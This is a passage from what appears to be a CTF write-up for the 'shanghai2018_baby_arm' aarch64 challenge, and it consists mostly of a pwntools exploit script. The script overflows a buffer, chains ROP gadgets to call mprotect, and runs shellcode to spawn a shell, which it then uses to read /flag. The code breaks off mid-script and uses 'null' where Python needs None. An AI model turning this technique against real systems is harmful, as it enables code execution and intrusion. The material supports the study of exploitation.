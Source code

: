 ```
```

#### <a class="reference-link" name="Final%20exploit"></a>Final exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='aarch64'
Debug = False

shanghai2018_baby_arm=ELF('./shanghai2018_baby_arm', checksec = False)

libc=ELF("/usr/aarch64-linux-gnu/lib/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    elif Debug:
        sh = process(["qemu-aarch64", "-g", "2333", "-L", "/usr/aarch64-linux-gnu", "./shanghai2018_baby_arm"])
        log.info('Please use GDB remote!(Enter to continue)')
        raw_input()
        return sh
    else :
        return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./shanghai2018_baby_arm"])

def get_address(sh,arch_num=null,info=null,start_string=null,end_string=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif arch_num == 64:
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address)))
    return return_address

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

if __name__ == "__main__":
    sh = get_sh()
    shell_code = asm(shellcraft.sh())
    shell_code = shell_code.ljust(0x100,'x90')
    shell_code = shell_code + p64(shanghai2018_baby_arm.plt['mprotect'])
    padding  = 'A' * 0x40 + p64(0xdeadbeef)
    payload  = padding + p64(0x4008CC)       # X19 , X20
    payload += p64(0xdeadbeef)               # X29
    payload += p64(0x4008AC)                 # X30
    payload += p64(0) + p64(1)               # X19 , X20
    payload += p64(0x411068 + 0x100)         # X21
    payload += p64(0x7)                      # X22
    payload += p64(0x1000)                   # X23
    payload += p64(0x411000)                 # X24
    payload += p64(0xdeadbeef)               # X29
    payload += p64(0x411068)                 # X30
    payload += p64(0) * 0x6                  # X19 - X24
    sh.recvuntil('Name:')
```